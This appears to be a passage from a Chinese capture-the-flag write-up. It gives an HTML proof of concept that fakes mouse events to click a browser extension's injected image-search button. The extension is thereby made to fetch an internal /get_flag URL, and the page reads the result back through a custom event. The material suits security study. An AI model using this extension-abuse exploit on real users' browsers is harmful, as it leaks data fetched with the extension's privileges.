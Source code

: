 好吧，我们不是插件，拿不到 `chrome.runtime`，老实模拟移动到图片上然后点击吧。注意需要先给图片一个宽高让它展示出来。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <style>
      img {
        width: 400px;
        height: 400px;
        display: block;
      }
    </style>
    <script>
      // receive message we want
      window.addEventListener('sendDataToContentScript', (e) => {
        document.title = e.detail.message
      })

      // trigger extension event
      const triggerEvent = () => {
        const element = document.querySelector('#img')

        const rect = element.getBoundingClientRect()

        const x = rect.right
        const y = rect.top

        const moveEvent = new MouseEvent('mousemove', {
          bubbles: true,
          cancelable: true,
          clientX: x,
          clientY: y,
        })
        document.elementFromPoint(x, y).dispatchEvent(moveEvent);

        const button = document.querySelector('.index-module__imgSearch_hover_rightWrapper--VZGcY')
        button.click()
      }
      setTimeout(() => {
        triggerEvent()
      }, 1000)
    </script>
  </head>
  <body>
    <!-- <img id="img" src="http://127.0.0.1:9081" /> -->
    <img id="img" src="http://127.0.1.14:1919/get_flag" />
  </body>
</html>
```
